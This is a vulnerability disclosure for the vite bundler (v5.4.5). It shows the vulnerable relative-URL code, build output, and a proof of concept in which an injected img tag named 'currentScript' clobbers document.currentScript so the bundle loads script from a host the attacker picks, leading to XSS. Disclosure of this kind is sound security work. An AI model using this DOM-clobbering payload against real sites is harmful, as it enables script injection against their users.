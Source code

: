 ## vite

### Meta

+ Library: vite
+ Version: v5.4.5
+ Stars: 67.2K
+ Payload: ```<img src="https://xxx.xxx.xxx" name="currentScript">```
+ Impact: XSS
+ CVE: N/A
+ Status: N/A
+ Foundby: TheHulk

### Library

URL: https://github.com/vitejs/vite
Bundlers run locally

### Vulnerable Code Snippet

```js
// https://github.com/vitejs/vite/blob/main/packages/vite/src/node/build.ts#L1309
const relativeUrlMechanisms = {
  amd: (relativePath) => {
    if (relativePath[0] !== ".") relativePath = "./" + relativePath;
    return getResolveUrl(
      `require.toUrl('${escapeId(relativePath)}'), document.baseURI`
    );
  },
  cjs: (relativePath) => `(typeof document === 'undefined' ? ${getFileUrlFromRelativePath(
    relativePath
  )} : ${getRelativeUrlFromDocument(relativePath)})`,
  es: (relativePath) => getResolveUrl(
    `'${escapeId(partialEncodeURIPath(relativePath))}', import.meta.url`
  ),
  iife: (relativePath) => getRelativeUrlFromDocument(relativePath),
  // NOTE: make sure rollup generate `module` params
  system: (relativePath) => getResolveUrl(
    `'${escapeId(partialEncodeURIPath(relativePath))}', module.meta.url`
  ),
  umd: (relativePath) => `(typeof document === 'undefined' && typeof location === 'undefined' ? ${getFileUrlFromRelativePath(
    relativePath
  )} : ${getRelativeUrlFromDocument(relativePath, true)})`
};
```

```sh
npm install -D vite
node ./node_modules/vite/bin/vite.js build
```

Output:
```js
"use strict";const t=""+(typeof document>"u"?require("url").pathToFileURL(__dirname+"/extra-Cjq7Wz0N.js").href:new URL("extra-Cjq7Wz0N.js",document.currentScript&&document.currentScript.src||document.baseURI).href);var e=document.createElement("script");e.src=t;document.head.append(e);
```

## PoC

as an example, bundle the js below: `node ./node_modules/vite/bin/vite.js build`.

```js
import extraURL from './extra.js?url'
var s = document.createElement('script')
s.src = extraURL
document.head.append(s)
```

example html:


```html
<!--Library-->
<script type="module" crossorigin src="index-DDmIg9VD.js"></script>
<!--Library-->

<!--Payload-->
<img name="currentScript" src="//localhost:9999">
<!--Payload-->
```

